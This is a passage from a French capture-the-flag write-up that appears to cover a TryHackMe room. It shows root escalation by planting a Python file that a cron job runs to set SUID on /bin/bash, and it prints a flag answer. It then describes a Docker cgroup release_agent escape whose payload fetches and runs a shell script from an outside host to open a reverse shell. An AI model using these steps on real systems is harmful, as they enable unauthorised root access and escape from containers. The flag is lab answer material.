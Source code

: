 

**Exploitation possible**
Je peux donc créer un fichier cbackup.py dans /dev/shm.cbackup.py et attendre que la tâche CRON s'exécute pour passer root

Voici ce que je met dans le fichier : 

```py
import os
def init(path):
    os.system('chmod +s /bin/bash')
```

Je sauvegarde avec vim car il n'y a pas nano et j'attend que le CRON job active mon programme. Au bout de 2min j'ai fait la commande `/bin/bash -p` pour augmenter mes privilèges et je suis passé `root` grâce a mon programme

Ensuite je suis aller dans le `/root` pour récupérer le flag 2


```bash
bash-5.1# ls -la
total 20
drwx------ 1 root root 4096 Aug 15  2023 .
drwxr-xr-x 1 root root 4096 Aug 15  2023 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw-r--r-- 1 root root   38 Oct 26 19:48 flag2.txt
```

**Réponse :** `THM{2c8203d84b1269a605a362bf4200c691}`

### **What is the value of flag 3?**

Donc je retourne où j'avais mis mon `linpeas.sh` et je le re exécute mais en tant que root cette fois ci et voici ce que j'ai trouvé pas mal de problèmes avec **Docker** du coup j'ai cherché des exploits qui pourraient correspondre et j'ai trouvé : [docker exploit](https://0xdf.gitlab.io/2021/05/17/digging-into-cgroups.html)

Voici les commandes que j'ai suivi :

Configuration du release_agent
```bash
bash-5.1# cat /tmp/cgrp/release_agent 
/var/lib/docker/overlay2/f678a40eed958afa41cb5d6fff636a0615a3786389b4c848b86fb07e481a3257/diff/cmd
```

Le `release_agent` pointe vers `/cmd` mais vu depuis l'hôte. Quand le cgroup devient vide, l'hôte exécutera ce script avec ses propres privilèges root.

Création du payload - Reverse Shell
```bash
echo '#!/bin/sh' > /cmd
echo 'curl 10.9.2.35/shell.sh -o /dev/shm/shell.sh' >> /cmd
echo 'chmod +x /dev/shm/shell.sh' >> /cmd
echo 'sh /dev/shm/shell.sh' >> /cmd
chmod a+x /cmd
```

